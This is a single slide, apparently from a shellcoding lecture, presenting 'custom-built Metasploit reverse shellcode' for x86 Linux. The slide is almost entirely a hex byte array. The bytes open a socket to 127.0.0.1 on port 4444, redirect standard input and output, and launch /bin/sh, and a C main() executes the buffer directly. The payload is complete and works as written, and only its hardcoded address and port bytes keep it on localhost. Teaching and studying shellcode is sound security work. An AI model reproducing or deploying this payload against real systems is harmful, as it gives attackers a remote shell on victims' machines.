

# Custom-built Metasploit Reverse Shellcode
Built for x86, linux, hardcoded to localhost, port 4444
(Also in the book, though they get some details wrong)
Shellcoders see any issues?

unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x68\x7f\x00\x00\x01\x66\x68\x11\x5c\x66\x53\x6a\x10"
"\x51\x50\x89\xe1\x43\x6a\x66\x58\xcd\x80\x59\x87\xd9\xb0\x3f"
"\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xdb\x6a\x01"
"\x58\xcd\x80";

main() { ((void(*)())buf)(); }